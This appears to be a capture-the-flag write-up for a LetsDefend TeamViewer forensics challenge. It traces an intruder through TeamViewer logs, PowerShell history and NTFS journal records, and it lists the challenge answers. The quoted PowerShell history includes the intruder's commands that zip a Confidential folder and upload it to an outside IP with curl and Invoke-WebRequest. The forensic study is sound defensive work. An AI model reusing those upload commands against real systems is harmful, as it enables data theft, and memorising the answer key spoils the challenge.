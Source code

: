 > # TeamViewer Forensics

## Summary
- [Summary](#summary)
  - [What is the intruder’s username?](#what-is-the-intruders-username)
  - [What is the “user ID” associated with the intruder's username?](#what-is-the-user-id-associated-with-the-intruders-username)
  - [The attacker has joined more than one time. When did the intruder first access the victim's machine?](#the-attacker-has-joined-more-than-one-time-when-did-the-intruder-first-access-the-victims-machine)
  - [What is the “session ID” of the intruder's second access to the computer?](#what-is-the-session-id-of-the-intruders-second-access-to-the-computer)
  - [What was the duration of the second session in seconds.milliseconds?](#what-was-the-duration-of-the-second-session-in-secondsmilliseconds)
  - [What is the IP address of the server to which the intruder exfiltrated data?](#what-is-the-ip-address-of-the-server-to-which-the-intruder-exfiltrated-data)
  - [How many files did the intruder exfiltrate?](#how-many-files-did-the-intruder-exfiltrate)
  - [When did the intruder delete the confidential data from the system?](#when-did-the-intruder-delete-the-confidential-data-from-the-system)

### What is the intruder’s username?
Analysis the file `C\Program Files\TeamViewer\Connections_incoming.txt`, you will see the incoming log on this machine.<br>
```
565955529	a1l4m	04-07-2024 04:34:16	04-07-2024 04:34:56	mmox	RemoteControl	{6460e19e-cffe-46d9-9fa6-1803f93f15f4}	
565955529	a1l4m	04-07-2024 04:35:03	04-07-2024 04:45:11	mmox	RemoteControl	{0d0d8937-8f4a-4597-9348-3aea91681992}	
```
**Answer:** a1l4m

### What is the “user ID” associated with the intruder's username?
**Answer:** 565955529

### The attacker has joined more than one time. When did the intruder first access the victim's machine?
Follow the file `C\Program Files\TeamViewer\TeamViewer15_Logfile.log`, search for the id `565955529` to find the first connection time.<br>
![](images/1.png)<br>
**Answer:** 2024-07-04 04:34:16.699

### What is the “session ID” of the intruder's second access to the computer?
Search the string `incoming remote control in sessions`.<br>
![](images/2.png)<br>
**Answer:** 536169703

### What was the duration of the second session in seconds.milliseconds? 
The keyword for ending a remote connection is `VoIP: Receiver: Removed session`, find the string with ID `536169703`. Then calculate the different.<br>
![](images/3.png)<br>
**Answer:** 607.571

### What is the IP address of the server to which the intruder exfiltrated data?
Follow the Powershell log in `D:\CTF\LetsDefend\C\Users\mmox\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`.<br>
```powershell
Compress-Archive -Path .\Confidential\ -DestinationPath output.zip
ls
curl
curl 116.203.186.178 -T .\output.zip
Invoke-WebRequest -Uri http://116.203.186.178 -Method Put -InFile .\output.zip -ContentType "application/zip"
./kape.exe --tsource C:\ --tdest 'C:\\Users\\mmox\\Downloads' --target KapeTriage --zip Finale
```
The intruder zip the folder `Confidential` then upload to server `116.203.186.178`.<br>
**Answer:** 116.203.186.178

### How many files did the intruder exfiltrate?
The intruder archive the folder `Confidential` to `output.zip`, but the folder is not appear in challenge file. So I will use `$Extend\$J` and `$MFT` with tool [MFTECmd](https://download.ericzimmermanstools.com/MFTECmd.zip) and [TimeLine Explorer](https://download.ericzimmermanstools.com/net6/TimelineExplorer.zip) to view the result.<br>
![](images/4.png)<br>
First, I search for the string `Confidential` but there are many row to find.<br>
![](images/5.png)<br>
The `Confidential` is a subfolder of `C:\Users\mmox\Documents`, so I filter with `Parent Entry Number` = 35740 and `Update Reasons` = FileCreate.<br>
![](images/6.png)<br>
**Answer:** 3

### When did the intruder delete the confidential data from the system?
Change `Update Reasons` to FileDelete, the intruder delete file named `Secret.txt`.<br>
![](images/7.png)<br>
**Answer:** 2024-07-04 04:42:09
